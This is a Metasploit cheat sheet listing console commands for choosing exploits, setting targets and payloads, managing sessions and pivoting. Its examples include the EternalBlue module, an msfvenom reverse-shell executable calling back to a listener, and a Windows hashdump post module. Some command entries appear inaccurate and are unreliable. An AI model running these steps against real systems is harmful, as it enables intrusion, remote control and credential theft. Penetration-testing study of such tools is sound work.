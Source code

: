 
## Metasploit Command Cheat Sheet {.cols-1}

### 🧰 Initialization & Help
| Function                   | Command                            | Example                            |
|----------------------------|-------------------------------------|------------------------------------|
| Start Metasploit Console   | `msfconsole`                        | `msfconsole`                        |
| Help and Usage Information | `metasploit -h` / `--help`         | `metasploit -h`                     |
| Exit Metasploit Console    | `exit`                              | `exit`                              |

## {.cols-2}

### 🔍 Searching & Selecting Modules
| Function                     | Command                           | Example                                                      |
|------------------------------|------------------------------------|--------------------------------------------------------------|
| Search Exploits              | `search <keyword>`                 | `search type:exploit name:smb`                               |
| Use a Specific Module        | `use <module_path>`                | `use exploit/windows/smb/ms17_010_eternalblue`               |
| Show Module Options          | `show options`                     | `show options`                                               |
| Show Payloads                | `show payloads`                    | `show payloads`                                              |
| Show Auxiliary Modules       | `show auxiliary`                   | `show auxiliary`                                             |
| Show Encoders                | `show encoders`                    | `show encoders`                                              |
| Show NOP Generators          | `show nops`                        | `show nops`                                                  |
| Show Post Modules            | `show post`                        | `show post`                                                  |

### ⚙️ Configuring Options
| Function                     | Command                           | Example                                                      |
|------------------------------|------------------------------------|--------------------------------------------------------------|
| Set Target Host              | `set RHOSTS <target_ip>`           | `set RHOSTS 192.168.1.1`                                     |
| Set Target Port              | `set RPORT <port>`                 | `set RPORT 445`                                              |
| Set Payload                  | `set PAYLOAD <payload>`            | `set PAYLOAD windows/meterpreter/reverse_tcp`               |
| Set Local Host               | `set LHOST <local_ip>`             | `set LHOST 192.168.1.100`                                    |
| Set Local Port               | `set LPORT <local_port>`           | `set LPORT 4444`                                             |
| Set Global Option            | `setg <option> <value>`            | `setg LHOST 192.168.1.100`                                   |
| Unset Global Option          | `unsetg <option>`                  | `unsetg LHOST`                                               |
| Check Target Vulnerability   | `check`                            | `check`                                                      |

### 🚀 Exploitation & Payloads
| Function                     | Command                            | Example                                                      |
|------------------------------|-------------------------------------|--------------------------------------------------------------|
| Run Exploit                  | `run` / `exploit`                   | `exploit`                                                    |
| Generate Payload             | `msfvenom -p <payload> -f <format> <options>` | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe` |

### 🖥️ Sessions Management
| Function                     | Command                            | Example                            |
|------------------------------|-------------------------------------|------------------------------------|
| View Active Sessions         | `sessions -l`                       | `sessions -l`                       |
| Interact with a Session      | `sessions -i <id>`                  | `sessions -i 1`                     |
| Background a Session         | `background`                        | `background`                        |
| Kill a Session               | `sessions -k <id>`                  | `sessions -k 1`                     |
| Save Active Sessions         | `sessions -s`                       | `sessions -s`                       |
| Load Saved Sessions          | `sessions -r <session_file>`        | `sessions -r my_sessions.txt`       |

## {.cols-1}

### 🔄 Post-Exploitation & Pivoting
| Function                     | Command                            | Example                            |
|------------------------------|-------------------------------------|------------------------------------|
| Run Post-Exploitation Script | `run <module_path>`                 | `run post/windows/gather/hashdump` |
| Add a Route Through Session  | `route add <subnet> <session_id>`  | `route add 192.168.2.0/24 1`       |
| Display Routes               | `route`                             | `route`                             |
| Pivot via a Session          | `setg SESSION <session_id>`         | `setg SESSION 1`                   |
